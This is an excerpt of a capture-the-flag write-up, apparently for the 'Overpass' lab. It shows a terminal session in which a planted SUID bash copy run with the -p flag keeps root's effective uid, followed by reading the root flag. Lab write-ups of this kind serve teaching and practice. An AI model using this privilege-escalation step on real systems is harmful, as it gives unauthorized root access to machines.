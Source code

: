         # the .suid_bash --> lets try to run it
james@overpass-production:/home/james$ ./.suid_bash
.suid_bash-4.4$ whoami
james
.suid_bash-4.4$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

# looks like im in the sudoers group so practically have root access
        # looking through the man bash (and for some help):
-p      Turn on privileged mode.
 If the shell is
                      started  with the effective user (group) id not equal to
                      the real user (group) id, and the -p option is not  sup-
                      plied, these actions are taken and the effective user id
                      is set to the real user id.  If the -p  option  is  sup-
                      plied  at  startup,  the effective user id is not reset.

        # so if we run the bash shell with -p?:
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)

        # the effective uid is root, so we got full access!

# root flag:
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
